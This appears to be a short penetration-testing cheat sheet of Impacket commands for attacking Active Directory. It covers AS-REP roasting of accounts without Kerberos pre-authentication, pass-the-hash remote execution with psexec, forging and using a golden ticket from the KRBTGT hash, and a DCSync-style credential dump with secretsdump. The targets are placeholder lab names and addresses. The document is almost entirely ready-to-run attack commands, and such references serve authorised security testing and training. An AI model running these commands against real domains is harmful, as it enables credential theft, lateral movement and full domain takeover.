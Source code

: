 # Impacket

## Enumeration

{% hint style="info" %}
**-format hashcat to export a formated hash**
{% endhint %}

### Account with doesn't require Kerberos Auth

```csharp
./GetNPUsers.py -dc-ip 10.110.0.222 -request 'crook.badcorp.local/' -format hashcat
```

## File server

```csharp
sudo ./smbserver.py Test /tmp -smb2support -user polo -password test123 
```

## Psexec

```csharp
./psexec.py -hashes <ntlm hash:ntlm hash> Administrator@<IP TARGET>
```

## Golden Ticket

### Request a TGT

```csharp
./ticketer.py -nthash <KRBTGT NTLM HASH> -domain-sid <DOMAIN SID> -domain <MYDOMAIN.LOCAL> Administrator
```

### Import the TGT

```csharp
export KRB5CCNAME=krb5cc_91801115_mine
```

### Connect using the ticket

```csharp
./psexec.py CROOK.BADCORP.LOCAL/Administrator@10.110.0.222 -k -no-pass
```

## DSYNC

```csharp
./secretsdump.py crook.badcorp.local/User:Password@10.110.0.222
```

